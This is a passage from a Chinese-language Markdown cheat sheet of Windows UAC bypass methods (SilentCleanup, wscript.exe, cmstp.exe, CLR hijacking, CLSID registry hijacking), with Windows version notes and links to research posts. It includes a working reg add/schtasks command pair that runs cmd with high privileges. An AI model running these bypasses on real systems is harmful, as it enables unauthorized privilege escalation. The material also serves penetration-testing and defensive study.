 参考：

[《Study Notes of using sdclt.exe to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-using-sdclt.exe-to-bypass-UAC/)

#### 方法3：use SilentCleanup

适用Win8,Win10

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

参考：

[《Study Notes of using SilentCleanup to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-using-SilentCleanup-to-bypass-UAC/)

#### 方法4：use wscript.exe 

只适用于Win7

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1

参考：

[《Empire中的Invoke-WScriptBypassUAC利用分析》](https://3gstudent.github.io/3gstudent.github.io/Empire%E4%B8%AD%E7%9A%84Invoke-WScriptBypassUAC%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

#### 方法5：use cmstp.exe

https://msitpros.com/?p=3960

适用于Win7

#### 方法5：修改环境变量，劫持高权限.Net程序

适用Win7-Win10

如gpedit.msc

修改环境变量，利用CLR劫持gpedit.msc的启动过程

参考：

[《Use CLR to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-bypass-UAC/)

#### 方法6：修改注册表HKCU\Software\Classes\CLSID，劫持高权限程序

适用Win7-Win10

- {B29D466A-857D-35BA-8712-A758861BFEA1}
- {D5AB5662-131D-453D-88C8-9BBA87502ADE}
- {0A29FF9E-7F9C-4437-8B11-F424491E3931}
- {CB2F6723-AB3A-11D2-9C40-00C04FA30A3E}

参考：

[《Use CLR to bypass UAC》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-bypass-UAC/)

---